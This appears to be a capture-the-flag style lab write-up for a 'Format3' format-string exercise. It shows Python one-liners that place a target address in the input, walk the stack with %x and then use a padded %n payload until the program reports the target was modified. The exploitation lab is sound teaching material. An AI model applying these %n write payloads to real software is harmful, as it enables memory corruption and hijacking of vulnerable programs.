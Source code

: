 **Format3**

Similar to Format2, only here we need to write a large value that's bigger than the buffer.
We need to find a way to tell the program to insert n bytes to memory while n > buf_size.

%(number_of_bytes_needed - payload_length)x%n

```diff
$ python -c "from struct import pack; print pack('<I', 0x080496f4) + '%x '*12" | ./format3
��0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 80496f4 
target is 00000000 :(

$ python -c "from struct import pack; print pack('<I', 0x080496f4) + '%x '*11 + '%n '" | ./format3
��0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614  
target is 0000004c :(

$ python -c "from struct import pack; print pack('<I', 0x080496f4) + '%x '*10 + '%16930049x%n '" | ./format3
...
bffff614 
you have modified the target :)
```